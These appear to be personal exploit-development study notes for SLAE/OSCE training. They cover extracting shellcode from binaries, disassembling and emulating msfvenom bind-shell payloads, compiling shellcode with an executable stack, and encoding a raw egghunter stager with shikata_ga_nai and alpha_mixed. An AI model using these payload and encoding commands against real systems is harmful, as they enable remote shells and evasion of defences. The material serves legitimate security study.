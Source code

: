 
there is no .decode('hex') on Python 3. .decode('hex') uses binascii.unhexlify() on Python 2
>import binascii

>print (binascii.unhexlify(a))

when running with nasm, u are less likely to have weird register states... in the middle of a c program, ebx is gonna be anything.. from _start
check for nulls and bad chars: objdump -d ./execve-stack -M intel

extract shellcode from binary:
> objdump -d ./execve-stack|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'

^^^Pay attention to the number of opcodes printed from null check and adjust the mah=gic string accordingly at "cut -f1-6 -d' '"

Disassemble shellcode: echo -ne "<shellcode>" | ndisasm -u -

Disassemble msfvenom payload: msfvenom -p linux/x86/shell_bind_tcp | ndisasm -u -

Analyse msfvenom shellcode: msfvenom -p linux/x86/shell_bind_tcp --format raw | sctest -vvv -Ss 5000 (verbose and read form STDIN)

Dump msfvenom payload as hex: msfvenom -p linux/x86/chmod FILE=/test.txt R | hexdump -v -e '"\\x" 1/1 "%02x"'

OUtput to a viual file, first: msfvenom -p linux/x86/shell_bind_tcp --format raw | sctest -vvv -Ss 5000 -G shell_bind_tcp.dot
Then: dot shell_bind_tcp.dot -T png -o shell_bind_tcp.png

compile shellcode: 
>gcc shellcode.c -fno-stack-protector -z execstack -o shellcode

get syscall value: 
>cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep access


view location of a variable: 
>print /x <variable> 
OR simply info variables and get them all
examine bytes starting at an address: 
>x/45xb <address>
>break <*&break +X> (* is for break & is address)
OR simply *0x<address>
View contents of variable: 
>x/s <memaddress>


Getting libemu to work when it doesn't:
>git clone https://github.com/buffer/libemu.git
>apt-get install autoconf
>apt-get install libtool
>aclocal -I /usr/share/libtool
>autoheader
>autoreconf -v -i
>./configure --prefix=/opt/libemu; make install
in /bin:
>ln -s /opt/libemu/bin/sctest 

 NOT SLAE but relevant:
 to encode problematic shellcode stager(OSCE):
 
perl -e 'print "\x66\x81\xCA\xFF\x0F\x42\x52\x6A\x02\x58\xCD\x2E\x3C\x05\x74\xF0\x89\xD7\xAF\x75\xF0\xAF\x75\xED\xB8\x90\x50\x90\x50\xFF\xE7"' > exploit.bin
cat exploit.bin | /usr/bin/msfvenom -p - -a x86 --platform windows -e x86/alpha_mixed -f python
cat exploit.bin | /usr/bin/msfvenom -p - -a x86 --platform windows -e x86/shikata_ga_nai -f python

